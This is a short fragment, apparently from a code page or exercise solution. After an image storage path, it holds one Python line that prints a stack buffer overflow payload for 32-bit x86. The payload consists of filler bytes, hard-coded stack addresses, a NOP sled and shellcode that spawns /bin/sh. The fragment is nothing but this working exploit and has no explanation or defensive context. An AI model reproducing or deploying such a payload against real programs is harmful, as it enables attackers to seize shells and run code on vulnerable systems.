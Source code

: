 print("".join([chr(i)*4 for i in range(65, 85)]) + '\x94\x84\x04\x08'+'\xbc\xf7\xff\xbf'+'\x90'*40+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')
